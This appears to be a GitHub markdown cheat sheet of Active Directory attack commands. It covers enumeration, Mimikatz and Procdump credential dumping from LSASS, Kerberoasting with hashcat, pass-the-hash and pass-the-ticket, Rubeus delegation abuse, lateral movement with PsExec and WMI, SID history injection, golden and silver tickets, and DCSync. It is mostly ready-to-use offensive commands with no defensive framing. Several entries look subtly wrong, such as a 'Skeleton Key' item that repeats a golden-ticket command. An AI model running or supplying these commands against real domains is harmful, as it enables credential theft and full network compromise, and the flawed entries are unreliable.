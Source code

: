 
#### **1. Enumeration**

- **Domain Controllers**:
  
  ```powershell
  nltest /dclist:domain_name
  ```

- **Domain Trusts**:
  
  ```powershell
  nltest /domain_trusts
  ```

- **Enumerate Users, Groups, and Computers**:
  
  ```powershell
  Get-ADUser -Filter * -Properties SamAccountName, DisplayName, Mail, MemberOf
  Get-ADGroup -Filter * -Properties Name, Description
  Get-ADComputer -Filter * -Properties Name, OperatingSystem, LastLogonDate
  ```

- **Service Principal Names (SPNs)**:
  
  ```powershell
  Get-ADUser -Filter { ServicePrincipalName -ne "$null" } -Properties ServicePrincipalName
  ```

#### **2. Credential Dumping**

- **Mimikatz**:
  
  ```powershell
  sekurlsa::logonpasswords
  sekurlsa::tickets
  lsadump::lsa /patch
  ```

- **Dump LSASS with Procdump**:
  
  ```powershell
  .\Procdump.exe -accepteula -ma lsass.exe lsass_dump.dmp
  ```

  Load dump in Mimikatz:
  
  ```powershell
  sekurlsa::minidump lsass_dump.dmp
  sekurlsa::logonpasswords
  ```

#### **3. Kerberoasting**

- **Extract SPN Hashes**:
  
  ```powershell
  Invoke-Kerberoast -OutputFormat Hashcat | Out-File -Encoding ASCII kerberoast.txt
  ```

- **Crack SPN Hashes**:
  
  ```sh
  hashcat -m 13100 kerberoast.txt wordlist.txt
  ```

#### **4. Pass-the-Hash (PtH) & Pass-the-Ticket (PtT)**

- **Mimikatz PtH**:
  
  ```powershell
  sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:cmd.exe
  ```

- **Mimikatz PtT**:
  
  ```powershell
  kerberos::ptt ticket.kirbi
  ```

#### **5. Delegation Attacks**

- **Unconstrained Delegation**:
  
  - **Identify Accounts**:
  
```powershell
Get-ADObject -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)" -Property SamAccountName
```

  - **Exploit with Rubeus**:
  
    ```powershell
    Rubeus.exe tgtdeleg /user:USERNAME /rc4:HASH
    ```

- **Constrained Delegation**:
  
  - **Identify Delegated Services**:
    
```powershell
Get-ADObject -Filter { msDS-AllowedToDelegateTo -ne "$null" } -Property SamAccountName, msDS-AllowedToDelegateTo
```

  - **Attack via S4U2Self and S4U2Proxy**:
    
```powershell
Rubeus.exe s4u /user:USERNAME /rc4:HASH /target:TARGET /impersonateuser:TARGETUSER /msdsspn:"SERVICE/hostname"
```

- **Resource-Based Constrained Delegation (RBCD)**:
  
  - **Exploit with Rubeus**:
    
```powershell
Rubeus.exe s4u /user:ATTACKER_USER /rc4:HASH /target:TARGET /msdsspn:"SERVICE/hostname"
```

#### **6. Just Enough Administration (JEA) Bypass**

- **Enumerate JEA Configurations**:
  
```powershell
Get-PSSessionConfiguration | Where-Object { $_.RunAsUser -ne $null }
```

- **Bypass JEA via Token Manipulation**:
  
```powershell
Invoke-TokenManipulation -ImpersonateUser "TargetUser"
```

- **Escalate Privileges via JEA**:
  
```powershell
New-PSSession -ConfigurationName "JEA Session" -ComputerName "TARGET" -Credential (Get-Credential)
```

#### **7. Just-In-Time (JIT) Administration Exploitation**

- **Identify JIT Accounts**:
  
```powershell
Get-ADGroupMember -Identity "Privileged Access Workstation" -Recursive
  ```

- **Abuse JIT via Shadow Principals**:
  
  ```powershell
  Get-ADUser -Filter * -Property memberOf | Where-Object { $_.memberOf -like "*Shadow Principals*" }
  ```

- **Exploit JIT by Compromising PAWs**:
  
  ```powershell
  Invoke-Mimikatz -Command '"sekurlsa::pth /user:ADMIN_USER /domain:DOMAIN /ntlm:HASH /run:cmd.exe"'
  ```

#### **8. Lateral Movement**

- **WMI Execution**:
  
  ```powershell
  Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c dir" -ComputerName TARGET_IP -Credential (Get-Credential)
  ```

- **PsExec**:
  
  ```sh
  psexec.exe \\TARGET_IP -u USERNAME -p PASSWORD cmd.exe
  ```

- **PowerShell Remoting**:
  
  ```powershell
  Enter-PSSession -ComputerName TARGET_IP -Credential (Get-Credential)
  ```

#### **9. Privilege Escalation**

- **Enumerate Privileged Groups**:
  
  ```powershell
  Get-ADGroupMember -Identity "Administrators"
  Get-ADGroupMember -Identity "Domain Admins"
  ```

- **GPO Abuse**:
  
  ```powershell
  Invoke-GPOAddAdmin -AccountName "DOMAIN\Username" -TargetGPOName "GPOName"
  ```

- **SID History Injection**:
  
  ```powershell
  mimikatz # sid::patch
  mimikatz # sid::add /sid:S-1-5-21-... /user:USERNAME
  ```

#### **10. Advanced Attacks**

- **Golden Ticket**:
  
  ```powershell
  kerberos::golden /user:USERNAME /domain:DOMAIN /sid:S-1-5-21-... /krbtgt:HASH /id:500
  ```

- **Silver Ticket**:
  
  ```powershell
  kerberos::golden /domain:DOMAIN /sid:S-1-5-21-... /target:TARGET /service:cifs /rc4:HASH /user:USERNAME /id:500
  ```

- **DCSync Attack**:
  
  ```powershell
  lsadump::dcsync /user:DOMAIN\krbtgt
  ```

- **Skeleton Key**:
  
  ```powershell
  kerberos::golden /user:USERNAME /domain:DOMAIN /sid:S-1-5-21-... /krbtgt:HASH /rc4:HASH /aes256:HASH /id:500 /ptt
  ```

